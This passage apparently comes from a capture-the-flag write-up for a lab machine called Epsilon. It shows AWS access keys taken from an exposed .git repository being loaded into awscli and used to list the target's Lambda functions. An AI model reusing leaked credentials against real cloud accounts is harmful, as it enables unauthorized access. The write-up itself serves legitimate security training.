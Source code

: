### AWS Lambda --> Token Forgery

Now, we have some secret keys and some additional information. Searching about how to interact with this AWS instance using a CLI brought this resource up:

{% embed url="https://aws.amazon.com/cli/" %}

We would have to install `awscli` on our machine and configure it to use the tokens and stuff found in the .git repository. This page was helpful in learning how to enumerate such machines.

{% embed url="https://cloud.hacktricks.xyz/pentesting-cloud/aws-pentesting/aws-services/aws-lambda-enum" %}

Once we have it running, we can set up a new profile:

```
$ aws configure
AWS Access Key ID [None]: AQLA5M37BDN6FJP76TDC
AWS Secret Access Key [None]: OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A
Default region name [None]: us-east-1
Default output format [None]:
```

Then we can find out the functions that we have access to.

```
$ aws lambda list-functions --endpoint http://cloud.epsilon.htb
{
    "Functions": [
        {
            "FunctionName": "costume_shop_v1",
            "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:costume_shop_v1",
            "Runtime": "python3.7",
            "Role": "arn:aws:iam::123456789012:role/service-role/dev",
            "Handler": "my-function.handler",
            "CodeSize": 478,
            "Description": "",
            "Timeout": 3,
            "LastModified": "2023-03-07T15:28:42.599+0000",
            "CodeSha256": "IoEBWYw6Ka2HfSTEAYEOSnERX7pq0IIVH5eHBBXEeSw=",
            "Version": "$LATEST",
            "VpcConfig": {},
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "2f4975b6-3487-4826-95e3-fd90ff03f598",
            "State": "Active",
            "LastUpdateStatus": "Successful",
            "PackageType": "Zip"
        }
    ]
}
```

It appears we have access to some function called `costume_shop_v1`, which is probably the service running on port 80. We can enumerate further via `get-function`.
